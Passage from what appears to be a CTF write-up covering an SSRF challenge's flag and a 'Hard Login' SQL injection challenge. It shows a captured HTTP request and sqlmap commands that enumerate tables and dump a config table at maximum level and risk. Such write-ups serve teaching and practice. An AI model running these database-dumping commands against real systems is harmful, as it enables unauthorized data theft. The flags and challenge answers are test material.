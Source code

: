 **Flag:**
CURTIN_CTF{s3rv3rs_4re_n0t-so_busy}

I submit this and got flag<br>
`http://127.1:5000/internal/flag`

---

### Hard Login
**Description:**<br>
The admin has now hid the flag somewhere deeper, how do we fnd it now?<br>
Challenge Link: http://47.128.145.75:8006/<br>
Hint: The DBA guy said flag is stored in a table called config with param=flag

**Flag:**
the web is down until the end of the ctf when I want to start do writeup

{% capture web %}
We solved this web challenge early and doesn’t do the writeup on the spot. Don’t know why the creator release a hint because we already solved it but nvm. The challenge creator afk and the web host is down from around 4am to the end of the CTF. So we are very sorry we couldn’t provide the exact solution. But here’s the concept.
{% endcapture %}
<div class="notice--danger">{{ web | markdownify }}</div>

Intercept the GET request from the user query (There was login query and user query) in burp suite. Copy the request and paste it in a text file.

```markdown
GET /search?query=user HTTP/1.1
Host: 47.128.145.75:8006
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://47.128.145.75:8006/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ms;q=0.8
Connection: keep-alive
```

Using the interception information, use sqlmap to automate a payload to dump the database. First we search for available table name. (As we do this before the hint so we do not know the table name). The hint is saying that there is flag in config table

```bash
python sqlmap.py -r "web2.txt" --tables
```

<img src="/assets/images/curtin24/hardlogin.png" alt="">

The command we are using is something like this.

```bash
python sqlmap.py -r "web.txt" --batch --level=5 --risk=3 -t config --dump
```

The web is down so there is no screenshot.

--The End--
{: style="text-align: center;"}